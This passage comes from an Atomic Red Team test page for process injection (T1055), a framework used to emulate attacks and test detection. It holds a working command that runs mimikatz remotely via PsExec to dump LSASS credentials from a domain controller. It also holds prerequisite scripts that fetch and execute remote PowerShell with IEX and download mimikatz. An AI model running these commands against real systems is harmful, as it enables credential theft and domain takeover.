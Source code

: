 ##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{txt_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055/src/x64/T1055-macrocode.txt" -OutFile "#{txt_path}" -UseBasicParsing
```




<br/>
<br/>

## Atomic Test #2 - Remote Process Injection in LSASS via mimikatz
Use mimikatz to remotely (via psexec) dump LSASS process content for RID 500 via code injection (new thread).
Especially useful against domain controllers in Active Directory environments.
It must be executed in the context of a user who is privileged on remote `machine`.

The effect of `/inject` is explained in <https://blog.3or.de/mimikatz-deep-dive-on-lsadumplsa-patch-and-inject.html>

**Supported Platforms:** Windows


**auto_generated_guid:** 3203ad24-168e-4bec-be36-f79b13ef8a83





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| machine | machine to target (via psexec) | string | DC1|
| mimikatz_path | Mimikatz windows executable | path | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe|
| psexec_path | Path to PsExec | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;PsExec.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"#{psexec_path}" /accepteula \\#{machine} -c #{mimikatz_path} "lsadump::lsa /inject /id:500" "exit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases -UseBasicParsing | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```